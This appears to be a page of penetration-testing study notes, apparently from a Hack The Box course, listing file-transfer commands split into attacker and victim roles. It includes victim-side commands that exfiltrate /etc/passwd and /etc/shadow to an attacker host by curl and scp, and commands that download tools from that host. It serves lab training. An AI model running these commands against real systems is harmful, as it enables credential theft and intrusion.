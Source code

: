 `[!bash!]**$** sudo systemctl enable ssh`

`[!bash!]**$** sudo systemctl start ssh`

`[!bash!]**$** netstat -lnpt`

**Victim**

`[!bash!]**$** scp plaintext@192.168.49.128:/root/myroot.txt .`

# **Upload Operations**

## **Web Upload**

Attacker

`[!bash!]**$** sudo python3 -m pip install --user uploadserver`

`[!bash!]**$** openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'`

`[!bash!]**$** mkdir https && cd https`

`[!bash!]**$** sudo python3 -m uploadserver 443 --server-certificate /root/server.pem`

Victim

`[!bash!]**$** curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure`

## **Alternative Web File Transfer Method**

Attacker

`[!bash!]**$** python3 -m http.server`

**OR**

`[!bash!]**$** python2.7 -m SimpleHTTPServer`

`[!bash!]**$** php -S 0.0.0.0:8000`

`[!bash!]**$** ruby -run -ehttpd . -p8000`

Victim

`[!bash!]**$** wget 192.168.49.128:8000/filetotransfer.txt`

## SCP UPLOAD

`[!bash!]**$** scp /etc/passwd plaintext@192.168.49.128:/home/plaintext/`

# **Transfering Files with Code**

`XeroCyb3r@htb[/htb]**$** python2.7 -c 'import urllib;urllib.urlretrieve ("<Target File Url>", "LinEnum.sh")'`

